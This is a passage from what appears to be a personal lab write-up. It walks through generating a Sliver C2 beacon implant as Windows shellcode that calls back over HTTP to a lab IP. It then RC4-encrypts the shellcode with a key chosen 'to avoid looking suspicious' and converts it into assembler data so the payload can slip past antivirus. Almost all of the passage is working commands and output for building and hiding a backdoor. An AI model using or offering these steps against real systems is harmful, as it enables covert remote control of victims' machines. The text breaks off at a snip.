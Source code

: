 Time to generate our beacon code.

Below are steps from [My repo "av-bypass"](https://github.com/jjkirn/av-bypass) to create the beacon implant for this Lab.

```
sliver > generate beacon --seconds 30 --jitter 33 --os windows --arch amd64 --format shellcode --http 192.168.175.130 --name wutai-http --save /tmp/http.bin -G --skip-symbols

[*] Generating new windows/amd64 beacon implant binary (30s)
[!] Symbol obfuscation is disabled
[*] Build completed in 4s
[!] Shikata ga nai encoder is disabled
[*] Implant saved to /tmp/http.bin
```
In another Kali terminal window go to /tmp:
```
┌──(jim㉿kali)-[~/Desktop]
└─$ cd /tmp
┌──(jim㉿kali)-[/tmp]
└─$ ls       
http.bin
```

Get the rc4.py from [my av-bypass repo](https://github.com/jjkirn/av-bypass) - (encrypt using rc4):
```
┌──(jim㉿kali)-[/tmp]
└─$ ls       
http.bin
rc4.py
```

Encrypt the code, set key = advapi32.dll to avoid looking suspicious:
```
┌──(jim㉿kali)-[/tmp]
└─$ python3 rc4.py advapi32.dll http.bin
Written http.bin.enc
```

Now have the RC4 encypted output:
```
┌──(jim㉿kali)-[/tmp]
└─$ ls
http.bin
http.bin.enc
rc4.py
```

Convert the http.bin.enc file output to a data format needed for the Windows compliler:
```
┌──(jim㉿kali)-[/tmp]
└─$ hexdump -v -e '1/2 "dw 0%.4xh\n"' http.bin.enc | tee out.txt
dw 04511h
dw 02e1dh
dw 0b721h
...
[snip]
```
